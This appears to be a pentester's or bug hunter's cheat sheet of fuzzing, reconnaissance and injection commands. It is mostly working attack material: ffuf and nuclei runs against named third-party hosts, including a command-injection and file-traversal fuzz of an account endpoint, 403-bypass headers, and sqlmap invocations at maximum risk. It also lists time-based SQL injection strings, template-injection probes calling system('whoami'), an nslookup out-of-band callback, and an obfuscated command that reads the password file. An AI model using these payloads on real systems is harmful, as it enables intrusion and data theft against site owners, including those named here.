 # FUZZING & AUTOMATION VULN CHECK
nuclei -t "/root/nuclei-templates/technologies/*.yaml" -l domain.txt
nuclei -t "/root/nuclei-templates/misconfiguration/*.yaml" -u https://securisync.intermedia.net
ffuf -u "https://lawaklandvictim.vendhq.com/api/2.0/nav/FUZZ" -mr "root:x|Ubuntu" -w /root/Documents/directory_wordlist/dotpwn.txt
ffuf -u "https://account.criteo.com/auth/json/criteo/users/ums:ping+-c+10+127.0.0.1||file://FUZZ" -w /root/Documents/security/payload/directory_transversal/dotpwn.txt
gospider -s "https://api.employer.jora.com/" -o output -c 10 -d 1

# GRAB URLS & HTTPS CHECK
$ printf example.com | gau
$ cat domains.txt | gau
$ gau example.com
$ gau -o example-urls.txt example.com
$ gau -b png,jpg,gif example.com
$ cat domains.txt | httprobe -c 50
$ cat domains.txt | httprobe -p http:81 -p https:8443

# BYPASS 403 SERVER SIDE
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1:80
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Forwarded-Host: 127.0.0.1

X-Client-IP : 127.0.0.1
X-Host : 127.0.0.1
Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-IP: 127.0.0.1
X-True-IP: 127.0.0.1

# REMOVE NOICE BURPSUITE HISTORY
.*\.google\.com 
.*\.gstatic\.com
.*\.mozilla\.com
.*\.googleapis\.com
.*\.pki\.goog
.*\.raygun\.io
.*\.intercom\.io

# SQL INJECTION 
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -u $url --forms --crawl=2 --dbs --ignore-code=401
| sleep 10
&& sleep 10
; sleep 10
{${sleep(20)}}
exec('sleep 5');
'xor(if(now()=sysdate(),sleep(10),0))or'
'xor(if(mid(database(),1,1)=0x41,sleep(63),0))or'
+(select*from(select(sleep(0)))a)+
'xor(select*from(select(0)))'
')) or sleep(5)='
;waitfor delay '0:0:10'--
);waitfor delay '0:0:10'--
';waitfor delay '0:0:10'--
";waitfor delay '0:0:10'--
');waitfor delay '0:0:10'--
");waitfor delay '0:0:10'--
));waitfor delay '0:0:10'--
' WAITFOR DELAY '0:0:10'--
';WAITFOR DELAY '0:0:10'-- 

# SERVER SIDE TEMPLATE INJECTION TEST
{{7*7}} ${7*7} <%= 7*7 %> ${{7*7}} #{7*7}

{{ [].class.base.subclasses() }} ${class.getClassLoader()} <%= system("whoami") %> ${{request}} #{selection.__${sel.code}__}

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
${{<%[%'"}}%\.
{}{{}}{}}{7*7}{{}}}


# COMMAND INJECTION TEST
||ping+-c+10+127.0.0.1||
x||nslookup+x.burpcollaborator.net||
cat$IFS$9${PWD%%[a-z]*}e*c${PWD%%[a-z]*}p?ss??

# DOWLOAD FILES > 1
xargs -n 1 curl -O < links.txt

export PYTHONWARNINGS="ignore:Unverified HTTPS request"


